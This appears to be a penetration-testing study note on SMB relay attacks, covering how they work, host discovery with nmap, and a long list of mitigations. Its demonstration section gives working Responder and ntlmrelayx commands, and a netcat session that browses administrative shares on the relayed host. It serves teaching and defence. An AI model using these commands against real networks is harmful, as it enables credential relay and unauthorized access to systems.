 ### Overview
An SMB (Server Message Block) relay attack is a type of network attack that exploits the authentication process in the SMB protocol. SMB is a network file-sharing protocol commonly used in Windows environments for accessing shared resources like files, printers, and other devices.

In a typical SMB relay attack, the attacker intercepts or captures SMB traffic between a client and a server and then relays that captured traffic to another target server on the network. The attacker essentially acts as a "man-in-the-middle" (MITM), forwarding the authentication request from the victim to the target server and vice versa.

1. The attacker sets up a rogue SMB server or uses existing systems on the network that can respond to SMB requests.
2. The attacker identifies SMB negotiation requests from potential victims. These requests usually happen when a client tries to access a network resource like a file share.
3. The attacker intercepts the negotiation requests and responds to the client on behalf of the actual server, pretending to be the target server.
4. The client sends its authentication credentials (e.g., username and password) to the attacker, believing it is communicating with the legitimate server.
5. The attacker, now in possession of the victim's authentication details, relays these credentials to the actual target server on the network.
6. If successful, the attacker gains unauthorized access to the target server using the victim's credentials.

The SMB relay attack can be very effective when the target server does not require packet signing or when SMB signing is poorly implemented. Packet signing is a security feature designed to prevent tampering with SMB traffic, but if it's not enabled or misconfigured, the attack becomes easier to execute.

The impact of an SMB relay attack can be severe, as it allows the attacker to gain unauthorized access to sensitive resources on the target server using legitimate user credentials. To defend against SMB relay attacks, network administrators should enforce SMB signing and use other security measures like IPsec, VPNs, or SMB over SSH to secure communications. Additionally, regularly patching and updating systems can help mitigate potential vulnerabilities.

### Host Discovery (SMB Signing Disabled)
**Note:** Make Sure that the network discovery is opened on the windows victim machine

Discovering hosts with SMB signing disabled can be achieved through various network scanning and enumeration techniques. Keep in mind that any network scanning activities should be conducted responsibly and only on systems that you own or have explicit permission to test. Here are some methods to identify hosts with SMB signing disabled:

1. **Port Scanning**: Use a network scanning tool like Nmap to scan the target network for open ports, including port 445 (the default SMB port). The presence of open port 445 indicates that SMB is likely active on the host.
2. **SMB Enumeration**: Once you identify a host with port 445 open, you can use SMB enumeration tools like Enum4linux, smbclient, or Metasploit's smb_enumusers module to gather information about the SMB shares and users on the target system.
3. **SMB Signing Detection Tools**: Some tools specifically target the detection of SMB signing status on hosts. For example, "impacket" is a popular Python library that includes the "smbclient" tool, which can be used to detect whether SMB signing is enabled or disabled on a target system.
4. **SMB Relay Attacks**: You can attempt to carry out an SMB relay attack as described earlier. During the attack, if you are successful in relaying the SMB authentication request to another system, it may indicate that SMB signing is disabled on the target system.
5. **Security Assessment Tools**: Commercial and open-source security assessment tools often include checks for SMB signing status as part of their vulnerability scanning capabilities.
6. **Active Directory Auditing**: In Windows environments with Active Directory, you can audit the Group Policy settings related to SMB signing. Group Policy can enforce SMB signing requirements on domain controllers and clients.

#### Attack Vector
```bash
$ nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24

Nmap Scan report for 192.168.57.x
Host is up (0.000064s latency).

PORT      STATE     SERVICE
445/tcp   filtered  microsoft-ds
MAC Address: <xx:xx:xx:xx:xx:xx> (VMware)

Host script results:
| smb2-security-mode
|  2.02:
|   Message siging enabled but not required
```
 This message `Message siging enabled but not required` means that the machine is vulnerable to SMB Relay Attack in case of that the machine isn't the server (Domain Controller)

### Full Attack Demonstration
```bash
$ gedit /etc/responder/Responder.conf
SMB = off
HTTP = off

$ responder -I eth0 -rdwv

$ ntlmrelayx.py -tf targets.txt -smb2support -i
```

Connect from the Victim Machine //<Attacker_IP>

![[SMB Relay Attack Connection.png]]

```bash
$ nc 127.0.0.1 11000

# shares
# use C$
# ls
# use ADMINS
```
![[SMB File Share.png]]

### Mitigation
Mitigating against SMB relay attacks involves implementing various security measures to strengthen the authentication and communication processes within the SMB protocol. Here are some effective mitigation strategies:

1. **Enable SMB Signing**: Enforce SMB packet signing to prevent tampering and ensure the integrity of SMB communications. This can be done through Group Policy settings in Windows environments. When SMB signing is enabled, the client and server sign all SMB packets exchanged during the communication, making it harder for attackers to tamper with or relay the traffic.
2. **Require Extended Protection for Authentication**: Extended Protection for Authentication is a security feature in Windows that helps prevent SMB relay attacks. By enabling this feature, clients are required to provide channel bindings when authenticating to a server, making it more challenging for attackers to intercept and relay authentication requests.
3. **Disable SMBv1**: SMB version 1 (SMBv1) is an outdated and vulnerable version of the protocol. Disabling SMBv1 on both clients and servers is recommended to mitigate various SMB-related attacks, including relay attacks. SMBv2 and later versions have improved security features and should be used instead.
4. **Implement IPsec**: IPsec (Internet Protocol Security) can be used to secure SMB communications by encrypting and authenticating network traffic between hosts. By implementing IPsec, even if an attacker captures SMB traffic, they won't be able to decipher the content.
5. **Network Segmentation**: Divide your network into segments or VLANs and control traffic flow between them using firewalls and access control lists. By limiting SMB traffic to specific trusted segments, you can reduce the attack surface and contain potential SMB relay attempts.
6. **Use VPNs**: Encourage the use of VPNs (Virtual Private Networks) for remote access. VPNs provide an additional layer of security, encrypting the entire communication channel and making it more difficult for attackers to intercept and manipulate SMB traffic.
7. **Regular Patching and Updates**: Keep all systems, including servers and clients, up to date with the latest security patches and updates. Vulnerabilities in SMB or related components can be patched to reduce the risk of exploitation.
8. **Network Monitoring and Intrusion Detection**: Implement robust network monitoring and intrusion detection systems to identify suspicious activity, such as failed authentication attempts or unusual SMB traffic patterns.
9. **Strong Authentication Policies**: Enforce strong password policies and consider implementing multi-factor authentication (MFA) to make it harder for attackers to obtain valid credentials.
10. **Penetration Testing and Security Audits**: Regularly conduct penetration testing and security audits to identify and address potential weaknesses and vulnerabilities in the network and systems.
![[Mitigation Strategies.png]]
